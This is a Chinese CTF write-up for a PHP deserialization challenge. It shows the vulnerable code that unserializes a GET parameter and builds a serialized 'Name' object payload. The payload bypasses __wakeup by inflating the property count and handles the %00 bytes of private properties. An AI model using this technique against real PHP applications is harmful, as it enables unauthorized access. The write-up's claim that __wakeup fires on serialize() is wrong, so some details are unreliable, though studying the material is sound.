


考察知识点：

1.反序列化

2.__wakkeup的绕过

3.private,public,属性方法序列化后的差异


# 1.本题就是简单的代码审计题


# 2.确定反序列化漏洞点

```javascript
index.php

<?php
include 'class.php';
$select = $_GET['select'];
$res=unserialize(@$select);
?>

class.php

<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```


# 3.攻击流程：

3.1 构造反序列化数据，触发__construct()方法给username和password赋值

3.2 改变序列化数据绕过__wakeup()


# 4.__wakeup魔法方法在serlize()时触发

假如原本序列化数据为：

s:77:"O:4:"Name":2:{s:14:" Name username";s:5:"admin";s:14:" Name password";i:100;}


当把Name后的数字2改为3时，就会造成错误，导致无法触发__wakeup()


# 5.此题需要注意，Name的属性为私有属性

不同属性序列化时有些许差异：




可发现private属性序列化时，属性附近会有%00，%00计算机显示时为空格，防复制payload到浏览器时就变为了空格，此时payload就无法打通


列如：

s:77:"O:4:"Name":2:{s:14:" Name username";s:5:"admin";s:14:" Name password";i:100;}


# 6. 将payload url编码即可




